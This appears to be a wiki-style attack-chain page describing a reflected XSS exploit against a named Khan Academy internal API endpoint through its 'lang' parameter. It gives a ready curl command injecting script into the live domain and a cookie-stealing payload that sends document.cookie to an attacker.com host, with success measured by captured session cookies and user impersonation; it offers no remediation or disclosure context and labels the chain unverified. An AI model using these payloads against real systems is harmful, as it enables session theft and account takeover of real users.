

# XSS via Content-Sniffing in Khan Academy API Lang Parameter

Multi-stage attack chain demonstrating exploitation of a reflected Cross-Site Scripting (XSS) vulnerability in Khan Academy's internal API endpoint. The flaw arises from content-sniffing that fails to validate or sanitize the 'lang' parameter in a GET request, allowing attackers to inject malicious JavaScript. This leads to session cookie theft, user impersonation, and content modification for victims.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Acunetix]]
- curl (for manual verification)

### Target Environment

- Web platform
- Access to Khan Academy's public-facing API endpoints
- No specific ports required beyond standard HTTP/HTTPS (80/443)

### Initial Access Requirements

- No credentials needed; exploitable via unauthenticated GET request
- Network access to the internet and target domain (khanacademy.org)
- Prior reconnaissance to identify API endpoints (optional but recommended)

## Detailed Attack Procedures

### Step 1: Scan for XSS Vulnerabilities
procedure: [[procedures/Scan-for-XSS-Vulnerabilities-with-Acunetix]]

**Objective**: Use an automated scanner to identify potential XSS entry points in the target API endpoint.

**Instructions**: Launch Acunetix to crawl and test the Khan Academy domain, focusing on API paths. Configure the scan to target the /api/internal/_mt/user/videos/ endpoint and inject payloads into query parameters like 'lang'.

**Expected Output**: Scan report highlighting the vulnerable endpoint with a reflected XSS finding, including proof-of-concept payload execution.

**Success Indicators**:
- Detection of XSS in /api/internal/_mt/user/videos/VIVIegSt81k/log_compatibility?lang=
- Payload reflection without sanitization

### Step 2: Inject XSS Payload into Lang Parameter
procedure: [[procedures/Inject-XSS-Payload-into-Lang-Parameter]]

**Objective**: Exploit the identified vulnerability by injecting a malicious script via the 'lang' parameter, leveraging content-sniffing to execute JavaScript and steal session data.

**Instructions**: Send a crafted GET request using [[commands/curl-xss-injection-khan]] to the vulnerable endpoint with a payload like <script>alert('XSS')</script> embedded in the lang parameter. Observe the response for script execution in the browser context.

```bash
curl -G "https://www.khanacademy.org/api/internal/_mt/user/videos/VIVIegSt81k/log_compatibility" --data-urlencode "lang=en<script>alert('XSS')</script>"
```

For exfiltration, modify the payload to send cookies to an attacker-controlled server, e.g., <script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>.

**Expected Output**: The response content includes the injected script, which executes when rendered in a victim's browser, potentially alerting or exfiltrating data.

**Success Indicators**:
- Script execution confirmed via alert or network request to attacker server
- Session cookies captured on attacker side
- Ability to impersonate user by replaying stolen cookies

## Attack Chain Summary

### Key Achievements

1. Automated discovery of XSS vulnerability using Acunetix scanner
2. Successful injection and execution of JavaScript payload via content-sniffing bypass
3. Data exfiltration including session cookies for user impersonation

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
